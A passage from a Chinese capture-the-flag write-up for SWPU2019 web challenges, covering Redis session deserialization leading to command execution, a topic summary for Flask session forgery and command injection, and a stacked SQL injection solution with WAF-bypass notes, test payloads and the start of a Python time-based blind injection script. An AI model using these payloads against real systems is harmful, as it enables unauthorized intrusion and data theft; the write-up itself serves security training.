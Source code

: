  

运行 `proxychains4 python exp.py` 命令之后，我们可以在redis的终端看到我们的session
已经被改为我们恶意的序列化结果了，再次访问http://web:2333/输入用户名密码登陆后
就可以在/static/js/materialize.min.js文件中看到我们命令执行结果：

 

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170726.png)

flag{b13534e2-8984-4f59-a46f-1f8eac316899}

 

 

 

### [web3](https://buuoj.cn/challenges#[SWPU2019]Web3)

考点：flask session伪造，软连接读取flag，命令注入

请见[BUU刷题记录3](http://wh1sper.com/buuoj刷题记录3/)

 

 

 

### [web4](https://buuoj.cn/challenges#[SWPU2019]Web4)

考点：PDO场景下的堆叠注入、时间盲注

打开题目叫你登录，不过任凭你怎么登录都会没有反应，注册说“未开放注册功能”

回头一抓包，发现我们向 `/index.php?r=Login/Login` 发送了一个数据包，这里可以注入，POST输入：

```
{"username":"1'","password":"123"}
```

页面会报错，但是我们输入：

```
{"username":"1';","password":"123"}
```

页面却没报错，同时说密码错误；

那么说明这道题可以堆叠注入。

尝试 `1';show databases;` 之类的操作，一直显示密码错误，猜测可能关键字被waf了，因为是堆叠，我们可以参考新春战疫的一道堆叠注入（当时也是PDO），使用预编译+16进制编码绕过waf。

而且页面不会根据我们输入情况回显不同，那么就用时间盲注；

exp：

```
# by wh1sper
# 时间盲注
import requests
import time
 
host = 'http://fe683617-4ef1-4c6a-8332-febe7058c07e.node3.buuoj.cn/index.php?r=Login/Login'
 
 
def mid(bot, top):
    return (int)(0.5 * (top + bot))
 
def char_to_hex(str):
    res = ''
    for i in str:
        res += hex(ord(i))
    res = '0x' + res.replace('0x', '')
    return res
 
```